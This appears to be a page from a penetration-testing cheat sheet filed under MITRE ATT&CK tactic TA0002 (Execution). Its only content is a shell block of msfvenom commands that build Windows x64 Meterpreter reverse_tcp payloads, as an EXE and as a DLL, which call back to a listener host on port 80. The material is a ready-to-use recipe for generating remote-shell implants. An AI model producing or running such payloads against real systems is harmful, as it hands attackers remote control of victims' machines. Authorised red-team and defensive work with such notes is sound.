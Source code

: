 ```yaml
---
layout: post
title: TA0002 Execution
category: pen
parent: pen
modified_date: 2022-02-15
permalink: /pen/build-payload
---
```


**Mitre Att&ck Entreprise**: [TA0002 - Execution](https://attack.mitre.org/tactics/TA0002/)

**Menu**
<!-- vscode-markdown-toc -->
* [Build System Interpreters - MSFvenom](#BuildSystemInterpreters-MSFvenom)
* [EXEC Python](#EXECPython)
	* [](#)
	* [EXEC Powershell](#EXECPowershell)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='BuildSystemInterpreters-MSFvenom'></a>build-interpreter-msfvenom
```sh
#? generate msfvenom payloads
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.156.1 lport=80 -f exe > /tmp/meter-rtcp-192.168.156.1-80.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.156.1 lport=80 -f dll > /tmp/meter-rtcp-192.168.156.1-80.dll
```
